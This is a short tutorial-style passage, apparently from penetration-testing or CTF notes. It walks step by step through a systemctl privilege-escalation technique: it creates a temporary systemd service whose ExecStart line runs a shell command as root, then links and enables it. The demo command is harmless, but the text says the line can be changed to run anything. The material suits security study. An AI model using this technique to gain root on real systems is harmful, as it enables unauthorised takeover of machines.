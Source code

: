 ``` bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
This will make a temporary file as a service  
`TF=$(mktemp).service`  
Then put the content in that service that will execute (as root) in the file  
``` bash
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
```
Here you want to modify this line to do what you want  
`ExecStart=/bin/sh -c "id > /tmp/output"`  
Then you link the new service to the system  
`/bin/systemctl link $TF`  
and activate and run it  
`/bin/systemctl enable --now $TF`  
You now have the output from your command in the file `/tmp/output`
